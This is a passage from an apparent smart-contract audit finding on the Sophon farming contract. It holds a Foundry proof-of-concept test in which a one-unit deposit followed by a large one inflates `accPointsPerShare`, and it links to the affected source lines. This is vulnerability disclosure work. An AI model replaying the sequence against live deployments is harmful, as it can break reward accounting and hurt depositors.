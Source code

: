 ```solidity
        sophonFarming.depositDai(1000e18, 0);
        sophonFarming.deposit(usdcId, 1, 0);

        vm.roll(block.number + 1);

        sophonFarming.massUpdatePools();

        address[] memory users = new address[](1);
        users[0] = deployer;

        uint256[][] memory pendingPoints = sophonFarming.getPendingPoints(
            users
        );

        for (uint i = 0; i < pendingPoints.length; i++) {
            uint256 poolsLength = pendingPoints[i].length;

            for (uint j = 0; j < poolsLength; j++) {
                uint256 currentPoints = pendingPoints[i][j];
                console.log(currentPoints);
            }
        }

        sophonFarming.deposit(usdcId, 10000e18 - 1, 0);

        vm.roll(block.number + 1);

        sophonFarming.massUpdatePools();

        pendingPoints = sophonFarming.getPendingPoints(users);

        for (uint i = 0; i < pendingPoints.length; i++) {
            uint256 poolsLength = pendingPoints[i].length;

            for (uint j = 0; j < poolsLength; j++) {
                uint256 currentPoints = pendingPoints[i][j];
                console.log(currentPoints);
            }
        }
    }
```

## Impact
The `accPointsPerShare` variable becomes too large and breaks contract functionality
## Code Snippet
https://github.com/sherlock-audit/2024-05-sophon/blob/05059e53755f24ae9e3a3bb2996de15df0289a6c/farming-contracts/contracts/farm/SophonFarming.sol#L423-L432
https://github.com/sherlock-audit/2024-05-sophon/blob/05059e53755f24ae9e3a3bb2996de15df0289a6c/farming-contracts/contracts/farm/SophonFarming.sol#L357C1-L385C1
## Tool used
